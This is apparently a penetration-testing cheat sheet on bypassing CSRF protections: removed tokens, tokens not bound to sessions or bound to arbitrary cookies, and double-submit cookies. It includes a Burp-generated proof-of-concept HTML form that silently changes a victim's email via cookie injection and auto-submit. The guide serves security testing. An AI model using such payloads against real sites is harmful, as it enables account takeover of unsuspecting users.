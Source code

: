<br>

### CSRF Protection Bypass - Remove CSRF Parameter/Value

* When the application uses a CSRF Token as header/parameter, remove the entire CSRF Token parameter and value to potentially bypass this CSRF protection.


<br>

### CSRF Protection Bypass – CSRF Token Not Tied to User Session

* CSRF Tokens may not be tied to the user’s session.  The application may just be keeping a pool of valid tokens and if the submitted request contains one of these tokens, then the request will be processed successfully.  

* An attacker can log into the application, obtain a valid token and use this CSRF token when attacking other users via a CSRF attack.

<br>

### CSRF Protection Bypass – CSRF Token Tied to an Arbitrary Cookie

* The CSRF Token may be tied to an arbitrary Cookie.  If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  

* The attacker needs to log into the application, obtain a valid CSRF Token and the Cookie that it is mapped too.  Then create a crafted CSRF exploit that will set the known Cookie in the victim’s browser then submit the POST request with the necessary parameters, which should include the known CSRF Token.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>

### CSRF Protection Bypass – Double Submit Cookie Method

* Application was using a double submit cookie for CSRF protection.  There was a CSRF Cookie and a CSRF Token parameter in the state-changing request.  These 2 values contained the exact same data; the application will process the request successfully if those 2 values are equal.
